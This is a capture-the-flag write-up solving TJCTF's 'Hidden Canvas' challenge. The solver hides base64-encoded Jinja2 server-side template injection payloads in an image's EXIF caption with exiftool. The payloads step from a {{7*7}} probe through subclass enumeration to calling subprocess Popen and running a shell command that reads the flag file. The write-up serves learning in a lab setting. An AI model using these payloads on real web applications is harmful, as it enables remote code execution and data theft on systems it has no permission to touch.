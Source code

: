 ## Hidden Canvas

---

### Challenge

I made this site where you can upload profile pictures, if you happen to embed caption metadata within your image, I'll try displaying it on your profile page.

[https://instancer.tjctf.org/challenge/hidden-canvas](https://instancer.tjctf.org/challenge/hidden-canvas)

---

### Solution

I downloaded a sample `Untitled.jpeg` from online to embed my metadata using `exiftool`.

```
exiftool -ImageDescription="Hello" Untitled.jpeg
```

![image](https://github.com/user-attachments/assets/47065ce5-4bce-4292-a9df-e1235bc25fec)

The error urged me to convert the Image Description into `base64` format. This was the result afterwards.

```
exiftool -ImageDescription="aGVsbG8=" Untitled.jpeg  
```

![image](https://github.com/user-attachments/assets/5c275fa7-4f64-4aff-96d5-78d865fda741)

Next, I thought of trying SSTI payloads to test whether or not it is vulenrable.

```
exiftool -ImageDescription="e3s3Kjd9fQ==" Untitled.jpeg

#{{7*7}}                                                                                        
```

![image](https://github.com/user-attachments/assets/e8c36b57-e222-410c-9248-02eb278651c5)

The output confirms that it is vulnerable to SSTI attacks. So I tried listing the contents of the directory:

![image](https://github.com/user-attachments/assets/7aa08016-66ec-4bac-8656-ed9f5c32dcda)

What we need to do is read `/flag.txt`. For that we have to check whether we have the necessary subclasses that allow reading the contents of the file.

```
exiftool -ImageDescription="e3sgJycuX19jbGFzc19fLl9fbXJvX19bMV0uX19zdWJjbGFzc2VzX18oKSB9fQo=" Untitled.jpeg

#{{ ''.__class__.__mro__[1].__subclasses__() }}

```

From the list we find that we have the subprocess `Popen` but we don't know its index location. To find the index, we craft the payload a bit differently.

```
exiftool -ImageDescription="eyUgZm9yIGMgaW4gJycuX19jbGFzc19fLl9fYmFzZV9fLl9fc3ViY2xhc3Nlc19fKCkgJX0KICB7eyBsb29wLmluZGV4MCB9fSAtIHt7IGN8c3RyaW5nIH19PGJyPgp7JSBlbmRmb3IgJX0=" Untitled.jpeg

#{% for c in ''.__class__.__base__.__subclasses__() %}
# {{ loop.index0 }} - {{ c|string }}<br>
#{% endfor %}
```

![image](https://github.com/user-attachments/assets/92f28ea8-8d09-4962-b0d4-06c27d55ed44)

From this we find that `Popen` has the index of `353`. Now we can call it to print the contents of `/flag.txt`

```
exiftool -ImageDescription='e3sgJycuX19jbGFzc19fLl9fYmFzZV9fLl9fc3ViY2xhc3Nlc19fKClbMzUzXSgnY2F0IGZsYWcudHh0Jywgc2hlbGw9VHJ1ZSwgc3Rkb3V0PS0xKS5jb21tdW5pY2F0ZSgpWzBdLmRlY29kZSgpIH19Cg==' Untitled.jpeg

# cat flag.txt
```

![image](https://github.com/user-attachments/assets/197df6d5-b3a4-49a4-a66a-d16faeffd8a2)

---

### Flag

`tjctf{H1dd3n_C@nv@s_D3c0d3d_4nd_R3nd3r3d!}`
